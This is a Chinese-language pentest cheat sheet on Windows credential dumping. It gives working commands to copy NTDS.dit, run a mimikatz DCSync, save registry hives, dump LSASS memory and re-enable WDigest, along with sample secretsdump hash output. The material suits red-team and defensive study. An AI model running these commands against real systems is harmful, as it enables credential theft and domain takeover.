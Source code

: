- [NTDS.dit](#ntdsdit)
  - [ntdsutil.exe](#ntdsutilexe)
  - [IFM](#ifm)
  - [vssadmin](#vssadmin)
  - [Dsync Attack](#dsync-attack)
- [LSA secrets](#lsa-secrets)
  - [转存注册表](#转存注册表)
    - [SECURITY.hive](#securityhive)
    - [SAM.hive](#samhive)
    - [SYSTEM.hive](#systemhive)
  - [CreateDump.exe](#createdumpexe)
  - [Procdump](#procdump)
  - [comsvcs.dll](#comsvcsdll)
  - [werfault.exe](#werfaultexe)
  - [SQLDumper.exe](#sqldumperexe)
  - [Mimakatz.exe](#mimakatzexe)
      - [Some Commands:](#some-commands)
  - [Impacket](#impacket)
  - [Credential Guard](#credential-guard)
# NTDS.dit
ActiveDirtory的数据库,物理路径位于域控下的`C:\Windows\NTDS\ntds.dit`
## ntdsutil.exe
创建快照

`ntdsutil snapshot "active instance ntds" create quit quit`

得到一个GUID

加载快照

`ntdsutil snapshot "mount {GUID}" quit quit`

复制ntds.dit文件

`copy C:\$SNAP_$time_VOLUMEC$\windows\ntds\ntds.dit c:\temp\ntds.dit`

卸载并删除快照

ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit`

## IFM

## vssadmin
创建拷贝<br />`vssadmin create shadow /for=c:`

会得到一个Copy Volume Name<br />复制卷影<br />`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5(Copy Volumn Name)\windows\NTDS\ntds.dit c:\ntds.dit`<br />删除快照<br />`vssadmin delete shadows /for=c: /quiet`
<a name="xc0ZG"></a>

## Dsync Attack
原理即向DC发送GetNCChange请求,而GetNCChange请求主要用于不同域控之间更新域中的数据.而发起用户需要有三种权限

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes In Filtered Set

而Administrator和Domain Controller组默认拥有该权限<br />`mimikatz “lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator”`获取Administrator用户数据.
<a name="wxQQS"></a>
# LSA secrets


<a name="Ub7eW"></a>
## 转存注册表
`reg save HKLM\SYSTEM system.bin`<br />`reg save HKLM\SECURITY security.bin`<br />`reg save HKLM\SAM sam.bin`
<a name="t2Ffd"></a>
### SECURITY.hive
要求system权限,存储在SECURITY.hive文件中,该文件由BOOTKey/SysKey(该Key存储在SYSTEM.hive中)加密<br />`command:reg query HKLM\SECURITY\Policy\Secrets`<br />在LSA secret中存储了以下信息:

- 域计算机账户:该账户密码默认30天更新一次,该用户用来本地SYSTEM用户和域进行交互,该账户没有administive权限,但该账户可以用来创建银票据或者用以RBCD攻击来作为Administartor登录该机器.
- 服务账户:该账户用来运行一些服务,但只存储了密码和服务名,并没有存储对应的用户名.
- 自动登录密码:如果启用了自动登录功能,则在LSA中存储了自动登录的密码,还可以将该密码存储在HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 注册表项下的注册表项中DefaulUserName.域和用户名始终分别存储在DefaultDomainName和DefaultUserName中.
- DPAPI密钥:该密钥可用于用户加密自己的敏感数据.
- 最后一个域用户登录该机器的凭据(DCC),该凭据使用的是MSCACHEV2/MSCASH哈希,不能用于Hash传递
<a name="jk7it"></a>
### SAM.hive
该文件保存了本地用户的NT哈希.
<a name="PtZBj"></a>
### SYSTEM.hive
保存了BOOTKey/SysKey.<br />最后调用impacket:<br />`secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL`<br />

```shell
$ secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xb471eae0e93128b9c8d5780c19ac9f1d 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash) //本地账户NT哈希
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6535b87abdb112a8fc3bf92528ac01f6:::
user:1001:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Dumping cached domain logon information (domain/username:hash)//域缓存用户hash
CONTOSO.LOCAL/anakin:$DCC2$10240#anakin#2933cad9235d2f502d7bedc2016e6553
CONTOSO.LOCAL/han:$DCC2$10240#han#4a52a6d0d7f3590c68124f4d5f7ef285
[*] Dumping LSA Secrets
[*] $MACHINE.ACC //计算机账户
$MACHINE.ACC:plain_password_hex:59aa6b91e74a0a6fc40efee9f2fb07936a9d69f46397dee82d3ec6ca4d0c01a0293d79e5c040bf564b7938d6c25597816921ec614ad25933af6a2482a8ace4d1dd54dd4bb465384b30046d85f65083e885455ec5f01dcae30df619e3f944eaa008a09e0f7432981f7cdb8dea34e432f00ed92e1ae3e48111326deb2d0f9a6e7d868e24c840b8814d338a4165f90381a4a6b824addb4f71c5908cac4423a4efbc5a4d846c09245930b526a6bec8c678ca838a005dcf5014f8b18426c3e0dbd3921f82c57e6ca025d0258d4536a9e0b68b90ff26c054c992c84d11e95f78c55ca411ee0e5b412cb4fc0f08c28ca2d79996
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b13dae64def5f205f382a0ab4174eb85
[*] DefaultPassword //自动登录密码
(Unknown User):user
[*] DPAPI_SYSTEM  //DPAPI密钥
dpapi_machinekey:0x6880eb76862df7875705885938102c696717eb18
dpapi_userkey:0x828326418633117212de44bcda10806fc6765d4a
[*] NL$KM 
 0000   0B BC 2E DB A1 A7 E2 42  56 6D B8 4B 5A 37 79 A4   .......BVm.KZ7y.
 0010   53 51 75 6D 64 7F 9A BF  DC BF C2 83 F4 64 02 A6   SQumd........d..
 0020   5E E8 53 AB E5 4B 35 A4  5B 19 7E 97 E0 CA 32 6C   ^.S..K5.[.~...2l
 0030   77 68 E8 F1 C0 54 AD 7B  03 F7 BE 59 2E 59 C3 93   wh...T.{...Y.Y..
NL$KM:0bbc2edba1a7e242566db84b5a3779a45351756d647f9abfdcbfc283f46402a65ee853abe54b35a45b197e97e0ca326c7768e8f1c054ad7b03f7be592e59c393
[*] _SC_mysql //服务账户的密码,只有服务名无对应的用户名,但可以根据服务名手动查询对应的用户名,Exp:Get-WmiObject win32_service -Filter "name='mysql'" | select -ExpandProperty startname
(Unknown User):Solo1234!
[*] Cleaning up...
```
<a name="Kumex"></a>
## CreateDump.exe
.net5中的工具.
<a name="ZGW6K"></a>
## Procdump
`procdump.exe -accepteula -ma lsass.exe hash.dump`

1. 最新v10.1版本在win2012、win2016上不能使用，在win10、win2019上面可以成功使用。而8.0全部系统都没有问题。
<a name="v0L02"></a>
## comsvcs.dll
[comsvcs.dll](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/)<br />`rundll32 C:\windows\system32\comsvcs.dll MiniDump "[LSASS_PID] dump.bin full"`
<a name="dSOBc"></a>
## werfault.exe
[链接](https://www.cnblogs.com/zUotTe0/p/14553082.html)<br />[链接](https://raw.githubusercontent.com/BL0odz/POSTS/main/LsassDump_with_RtlReportSilentProcessExit/main.cpp)​
<a name="dm58g"></a>
## SQLDumper.exe
Microsoft SQL中的工具.
<a name="NzTKK"></a>
## Mimakatz.exe
<a name="nxf5t"></a>
#### Some Commands:

- sekurlsa::logonpasswords: Extracts the NT hashes and passwords.
- sekurlsa::ekeys: Gets the Kerberos keys.
- sekurlsa::tickets: Retrieves the Kerberos tickets stored in the machine.
- 是否可抓取明文密码

补丁:KB2871997,关闭了Wdigest功能,win2012及以上也默认关闭<br />开关Wdigest功能:<br />`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1(0) /f`<br />手动开启后,下次用户登录后即可抓取到明文密码
<a name="ByjJi"></a>
## Impacket
<a name="WeLMB"></a>
## Credential Guard
[参考](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-how-it-works)
